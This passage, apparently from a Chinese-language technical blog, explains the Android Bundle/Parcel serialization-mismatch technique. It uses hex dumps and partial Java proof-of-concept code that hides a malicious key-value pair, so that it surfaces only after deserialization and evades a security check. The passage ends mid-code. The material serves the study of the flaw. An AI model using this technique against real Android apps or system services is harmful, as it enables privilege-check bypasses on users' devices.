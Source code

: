 ```
00000000  90 00 00 00 42 4e 44 4c  01 00 00 00 06 00 00 00  |....BNDL........|
00000010  6d 00 79 00 74 00 65 00  73 00 74 00 00 00 00 00  |m.y.t.e.s.t.....|
00000020  04 00 00 00 35 00 00 00  63 00 6f 00 6d 00 2e 00  |....5...c.o.m...|
00000030  65 00 67 00 67 00 75 00  6e 00 63 00 6c 00 65 00  |e.g.g.u.n.c.l.e.|
00000040  2e 00 6d 00 69 00 73 00  6d 00 61 00 74 00 63 00  |..m.i.s.m.a.t.c.|
00000050  68 00 70 00 61 00 72 00  63 00 65 00 6c 00 61 00  |h.p.a.r.c.e.l.a.|
00000060  62 00 6c 00 65 00 2e 00  64 00 61 00 74 00 61 00  |b.l.e...d.a.t.a.|
00000070  2e 00 4d 00 79 00 4d 00  69 00 73 00 6d 00 61 00  |..M.y.M.i.s.m.a.|
00000080  74 00 63 00 68 00 50 00  61 00 72 00 63 00 65 00  |t.c.h.P.a.r.c.e.|
00000090  6c 00 00 00 7b 00 00 00                           |l...{...|
```

```
00000000  94 00 00 00 42 4e 44 4c  01 00 00 00 06 00 00 00  |....BNDL........|
00000010  6d 00 79 00 74 00 65 00  73 00 74 00 00 00 00 00  |m.y.t.e.s.t.....|
00000020  04 00 00 00 35 00 00 00  63 00 6f 00 6d 00 2e 00  |....5...c.o.m...|
00000030  65 00 67 00 67 00 75 00  6e 00 63 00 6c 00 65 00  |e.g.g.u.n.c.l.e.|
00000040  2e 00 6d 00 69 00 73 00  6d 00 61 00 74 00 63 00  |..m.i.s.m.a.t.c.|
00000050  68 00 70 00 61 00 72 00  63 00 65 00 6c 00 61 00  |h.p.a.r.c.e.l.a.|
00000060  62 00 6c 00 65 00 2e 00  64 00 61 00 74 00 61 00  |b.l.e...d.a.t.a.|
00000070  2e 00 4d 00 79 00 4d 00  69 00 73 00 6d 00 61 00  |..M.y.M.i.s.m.a.|
00000080  74 00 63 00 68 00 50 00  61 00 72 00 63 00 65 00  |t.c.h.P.a.r.c.e.|
00000090  6c 00 00 00 7b 00 00 00  00 00 00 00              |l...{.......|
```

可以很清楚的看到,最后多了四位,我们的重点就在利用这四字节的偏移.

我们可以在它后面再加上一个键值对,键为6,值的类型为byte,也就是13,将恶意数据拼接在后面,这样我们构造的bundle数据大概如下:

```
|第一个键值对|第二个      |
|mytest| 1 |6|13|evilkv|
而在一次不匹配的序列化反序列化之后,它会变成这样
|第一个键值对|第二个     |第三个
|mytest| 1 | 0 | 6 |13|evilkv
```
这里只是一个粗略的示意,在不匹配的序列化反序列化发生之后,第二个键值对的键,变为了空,而它的值变为了 6 13 这里的6其实代表long型,然后13就是它的值,后面其实还有byte的长度信息,这里会一并被当成第二个键的值,而这个时候,第三个键,也就是我们藏起来的那个,就出现了,这样就能在check的时候绕过,下面我们通过代码来构造它:

```
Parcel parcel = Parcel.obtain();
   String evilData = "evil data";
   //键值对的数量,为3,这里其实有构建四个键值对,存在不匹配问题的类的键值对,用来隐藏恶意键值对的键值对,恶意键值对,还有一个占坑
   //的键值对,这里给设置为三,因为在隐藏的键值对被还原的时候,隐藏的键值对就是第三个,如果设置为2,那么就读不到了
   parcel.writeInt(3);  
   //parcel.writeInt(1);
   //第一个键
   //第一个键的内容
   parcel.writeString("mytest");
   //值的类型 4 代表序列化对象
   parcel.writeInt(4);
   //对应的类
   parcel.writeString("com.egguncle.mismatchparcelable.data.MyMismatchParcel");
   //写入数据
   parcel.writeInt(123);


   //第二个键的键值长度
   parcel.writeInt(1);
   //第二个键的键值
   parcel.writeInt(6);
   //代表值为 byte类型
   parcel.writeInt(13);

   //占个坑,一会儿回来给它写上咱们evil kv的,这里代表byte的长度
   parcel.writeInt(-1);
```